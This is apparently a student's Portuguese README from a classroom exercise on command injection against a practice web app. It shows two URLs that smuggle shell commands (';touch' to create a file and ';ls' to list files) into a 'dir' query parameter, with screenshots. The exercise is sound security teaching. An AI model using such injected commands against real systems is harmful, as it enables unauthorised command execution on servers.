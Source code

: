 # Command Injection

Essa prática foi feita na sala de aula, consistia na injeção de comando para a criação de um arquivo com meu nome.

- Criando o arquivo no servidor:
```
http://commandinjection.herokuapp.com/?dir=folder;touch esdrasemanuel.txt
```
<div align="center"><img src="img/ci01.png" alt="" style="width:80; height:85px;"/></div>

- Listando:
```
http://commandinjection.herokuapp.com/?dir=folder;ls
```
<div align="center"><img src="img/ci02.png" alt="" style="width:80; height:85px;"/></div>
